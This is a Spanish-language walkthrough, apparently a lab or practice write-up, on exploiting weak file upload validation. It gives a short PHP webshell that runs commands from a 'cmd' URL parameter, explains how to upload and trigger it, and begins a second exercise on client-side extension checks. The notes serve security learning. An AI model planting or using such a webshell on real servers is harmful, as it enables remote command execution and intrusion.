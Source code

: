 


1.-  

En este primer ejercicio se nos muestra una pagina en el que nos menciona que solo se pueden subir archivos jpeg y gif pero al parecer esto no esta validado correctamente y podemos subir un archivo php  

![[Pasted image 20240216193026.png]]


Podemos crear un archivo basico para inyectar comandos tal como es este:

```php
<?php 

echo system(whoami)

?>

```

O algo un poco mas completo como una webshell basica

```php
<?php 

echo system($_GET['cmd'])

?>

```


Ahora subimos el archivo a la pagina y nos dará la ruta donde se alojan los archivos subidos

![[Pasted image 20240216194854.png]]

Entonces entramos a esa ruta y le pasamos en el parametro cmd el comando que se quiera ejecutar


![[Pasted image 20240216195108.png]]


2-

En este segundo paso tenemos la misma pagina solo que cambia una cosa al momento de tratar de subir un archivo que no sea uno valido nos mostrara un error

![[Pasted image 20240216195754.png]]


Al verificar el codigo podemos ver que se hace una validacion que valida la extensiones se activa al momento de darle click al boton de upload 

![[Pasted image 20240216200019.png]]

![[Pasted image 20240216200514.png]]
